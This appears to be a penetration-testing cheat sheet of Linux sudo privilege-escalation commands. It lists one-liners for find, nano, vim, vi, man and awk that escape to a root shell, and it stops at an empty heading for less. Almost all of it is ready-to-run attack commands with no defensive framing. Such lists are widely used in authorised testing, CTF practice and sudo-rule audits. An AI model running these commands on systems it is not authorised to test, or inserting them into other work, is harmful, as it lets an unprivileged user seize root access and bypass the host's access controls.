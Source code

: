 ### find

```
sudo /usr/bin/find . -exec /bin/bash \; -quit
sudo /find /bin -name nano -exec /bin/sh \;
```

### nano

```
sudo /usr/bin/nano
Press ctrl+r then ctrl +x 
Reset; bash 1>&0 2>&0
```

### vim

```
sudo vim -c ':!/bin/bash'
```

* Method 2

```
sudo vim -c '!sh'
```

* Method 3

```
:set shell=/bin/sh
:shell
```

### vi

```
:set shell=/bin/sh
:shell
```

### man

```
sudo /usr/bin/man man
!/bin/sh
```

### awk

```
sudo awk 'BEGIN {system("/bin/bash")}'
sudo awk 'BEGIN {system("/bin/sh")}'
```

### less
